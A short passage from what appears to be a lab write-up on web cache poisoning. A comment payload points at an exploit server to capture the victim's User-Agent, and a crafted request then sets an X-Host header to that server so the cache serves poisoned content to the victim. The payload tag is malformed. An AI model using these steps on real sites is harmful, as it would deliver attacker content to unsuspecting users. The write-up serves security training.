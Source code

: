 However this approach provokes the server to go down:

![img](media/3fb1d1fe085a6a73d84d685cffa9138c.png)

We will create a comment with this payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
< src="https://exploit-0acc00f704141c10817b1b2e011000d5.exploit-server.net/foo" />
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We get the User-Agent “Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like
Gecko) Chrome/113.0.0.0 Safari/537.36”:

![img](media/1588cfcb28ba1ad590d4462a897e3428.png)

And finally:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET / HTTP/1.1
...
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
X-Host: exploit-0acc00f704141c10817b1b2e011000d5.exploit-server.net
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/4133d8eb4822df1ff09623d3c3c05d6b.png)

